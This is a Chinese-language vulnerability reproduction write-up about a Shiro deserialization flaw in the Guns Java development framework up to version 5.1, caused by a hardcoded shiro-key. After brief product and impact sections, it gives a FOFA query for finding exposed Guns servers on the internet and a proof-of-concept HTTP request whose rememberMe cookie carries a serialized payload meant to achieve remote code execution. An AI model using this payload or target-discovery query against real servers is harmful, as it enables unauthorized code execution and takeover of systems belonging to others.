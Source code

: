 
# Guns快速开发平台 Shiro反序列化漏洞复现

### 0x01 产品简介

  Guns是一个现代化的 Java 应用开发框架，基于主流技术Spring Boot 2 + [Vue3](https://so.csdn.net/so/search?q=Vue3&spm=1001.2101.3001.7020)，Guns的核心理念是提高开发人员开发效率，降低企业信息化系统的开发成本。

### 0x02 漏洞概述

 Guns v5.1 及之前的版本存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 影响范围

Guns <= v5.1

### 0x04 复现环境

FOFA：app="Guns"

![](assets/1701678050-625675332d7aed3e9f6fe1080eb49bce.png)

### 0x05 漏洞复现 

PoC

```cobol
GET / HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: rememberMe=ZTE4ZUI2ZmNlQ0I1N2VlMIo/Wyvlhprf3YyQ7Uv0S1ylHBAbcj1lccluzsWCtG5HF01/y+s6ZI6S12zsdz9N+2nqYahiFMk8s+/RwNucYR8lqS9REzzXlF3orc/ZFjlRR8h0Lgfn4lpRxZnSGYCVh0neiT/ZQCT8tffIhFf0FthINEIn00tPmGJpjCTG+dc5Jmc5
```
